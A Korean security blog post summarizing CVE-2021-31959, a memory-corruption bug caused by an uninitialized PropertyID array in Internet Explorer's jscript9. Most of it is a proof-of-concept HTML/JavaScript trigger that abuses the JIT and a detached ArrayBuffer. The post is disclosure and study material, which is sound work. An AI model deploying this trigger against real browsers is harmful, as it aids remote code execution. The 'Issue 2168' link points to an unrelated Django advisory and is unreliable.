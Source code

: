 ```yaml
---
title: "[하루한줄] CVE-2021-31959: Internet Explorer Uninitialized Property ID array"
author: L0ch
tags: [L0ch, cve, internet explorer, uninitialized variable, microsoft]
categories: [1day1line]
date: 2021-06-15 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Issue 2168: Internet Explorer: Memory corruption in jscript9.dll due to uninitialized Property ID array](https://securitylab.github.com/advisories/GHSL-2021-075-django/)

## Target

- Internet Explorer (Windows 10)

## Explain
MS에서 지원을 2022년 6월에 완전히 종료하겠다고 밝힌 Internet Explorer에서 초기화되지 않은 배열 요소의 사용으로 인한 취약점이 발견되어 세부 정보가 공개되었습니다.

취약점은 jscript9의 PropertyID 배열의 처리 방식에 존재합니다. PropertyID 배열은 `ByteCodeGenerator::EmitScopeObjectInit` 함수에 할당됩니다. 이때 할당 시 메모리를 초기화하지 않는 `ArenaAllocator::Alloc` 함수를 사용해 배열을 할당하므로 배열의 일부가 초기화되지 않은 상태로 유지됩니다.

이러한 초기화되지 않은 PropertyID로 변수의 scope를 속일 수 있습니다. 이를 악용하면 정상적인 방법으로 액세스 할 수 없는 변수에 액세스 할 수 있으며 원격 코드 실행으로 이어질 수 있습니다. 해당 취약점은 [CVE-2020-1380](https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2020/CVE-2020-1380.html)과 동일한 방법으로 JIT 엔진을 사용해 트리거할 수 있습니다.

**PoC Code**

```html
<!-- saved from url=(0014)about:internet -->
<script>

alert('start');

// prepare objects
var buf = new ArrayBuffer(0x8c);
var arr = new Int32Array(buf);

var o = {};
o.valueOf = function() {
    alert('callback');
    // free 
    worker = new Worker('worker.js');
    worker.postMessage(buf, [buf]);
    worker.terminate();
    worker = null;

    // sleep
    var start = Date.now();
    while (Date.now() - start < 200) {}
    // TODO: reclaim freed memory

    return 0
};

// generate function from string in order to have a clean bytecode generator
var vulnstr =
"for (let i=0; i<1; i++) {\n" +
"    function opt(A, x, crash) {\n" +
"        'use strict';\n" +
"        const aagaaaaaaahabauaaaaa = x+1;\n" + //special variable name so that hash is eqal to 0x109 (property ID of Int16Array)
"        const c02 = aagaaaaaaahabauaaaaa+1;\n" +
"        const c03 = c02+1;\n" +
"        const c04 = c03+1;\n" +
"        const c05 = c04+1;\n" +
"        let c06 = c05+1;\n" +  // this variable will alias with Int16Array
"        const c07 = c06+1;\n" +
"        const c08 = c07+1;\n" +
"        const c09 = c08+1;\n" +
"        const c10 = c09+1;\n" +
"        const c11 = c10+1;\n" +
"        const c12 = c11+1;\n" +
"        const c13 = c12+1;\n" +
"        const c14 = c13+1;\n" +
"        const c15 = c14+1;\n" +
"        const c16 = c15+1;\n" +
"        const c17 = c16+1;\n" +
"        const c18 = c17+1;\n" +
"        const c19 = c18+1;\n" +
"        const c20 = c19+1;\n" +
"        const c21 = c20+1;\n" +
"        const c22 = c21+1;\n" +
"        const c23 = c22+1;\n" +
"        const c24 = c23+1;\n" +
"        const c25 = c24+1;\n" +
"        const c26 = c25+1;\n" +
"        const c27 = c26+1;\n" +
"        const c28 = c27+1;\n" +
"        const c29 = c28+1;\n" +
"        const c30 = c29+1;\n" +
"        const c31 = c30+1;\n" +
"        const c32 = c31+1;\n" +
"        const c33 = c32+1;\n" +
"        const c34 = c33+1;\n" +
"        const c35 = c34+1;\n" +
"        const c36 = c35+1;\n" +
"        const c37 = c36+1;\n" +
"        const c38 = c37+1;\n" +
"        if(crash) {\n" +
"          c06 = c06 + 1;\n" + // we must change it here so that the value below is not known
"          Int16Array = o;\n" + // here we actually change the value (and type) of c06
"        }\n" +
"        A[0] = c06;\n" + // if crash==1, c06 is an object here, but JIT thinks it's an integer
"        eval(1);\n" +  // needed to trigger ByteCodeGenerator::EmitScopeObjectInit
"    }\n" +
"    for(var i=0; i<100000; i++) {\n" + // jit a function
"      opt(arr, 1, 0);\n" +
"    }\n" +
"    opt(arr, 1, 1);\n" +
"    alert('failed');\n" +
"}";

vuln = Function(vulnstr);
vuln();

</script>
```